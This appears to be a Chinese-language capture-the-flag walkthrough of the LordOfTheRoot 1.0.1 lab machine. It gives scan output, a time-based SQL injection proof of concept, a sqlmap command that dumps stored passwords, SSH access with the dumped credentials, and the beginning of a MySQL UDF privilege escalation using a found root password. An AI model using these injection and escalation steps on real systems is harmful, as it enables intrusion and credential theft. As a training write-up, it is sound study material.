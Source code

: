 ## LordOfTheRoot_1.0.1

## Nmap

```shell
# Nmap 7.94 scan initiated Sat Feb 24 11:07:48 2024 as: nmap -p- -T5 -o nmap_tcp 192.168.202.129
Nmap scan report for 192.168.202.129
Host is up (0.0014s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
MAC Address: 00:0C:29:FC:3E:CC (VMware)

# Nmap done at Sat Feb 24 11:08:44 2024 -- 1 IP address (1 host up) scanned in 56.35 seconds

```

## Dirsearch

```shell
[11:10:13] Starting: 
[11:10:28] 200 -  130B  - /404.html
[11:11:31] 200 -  500B  - /images/
[11:11:31] 301 -  325B  - /images  ->  http://192.168.202.129:1337/images/
Task Completed
```

> 查询404.html源码

```shell
echo "THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh" | base64 -d | base64 -d
得到
/978345210/index.php

```



## 延时注入

```shell
http://192.168.202.129:1337/978345210/index.php
# 注入点为：username
poc: "' or slee(3)-- -"

sudo sqlmap -r requests.txt -p username --batch --dump  -C 'username,password'-T 'Users' -D 'Webapp'

# 得到数据：
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+



```

#### ssh拿到立足点

```
ssh smeagol@192.168.202.129 
```



#### MYSQL UDF提权

```sql
查看/var/www/html/978345210/login.php 发现了数据库连接的账号密码为root:darkshadow
* $db = new mysqli('localhost', 'root', 'darkshadow', 'Webapp');

select version(); 版本为5.5.44-0ubuntu0.14.04.1 ，那么动态链接库应该放到/usr/lib/mysql/plugin/下

show variables like "plugin%"; 
	/usr/lib/mysql/plugin/'

show global variables like "secure%"; 

/home/smeagol/Templates/raptor_udf2.so

/usr/lib/mysql/plugin/raptor_udf3.so
```

<img src="C:\Users\yuhao\AppData\Roaming\Typora\typora-user-images\image-20240225190825985.png" alt="image-20240225190825985" style="zoom:200%;" />

<img src="C:\Users\yuhao\AppData\Roaming\Typora\typora-user-images\image-20240225191018469.png" alt="image-20240225191018469" style="zoom:150%;" />







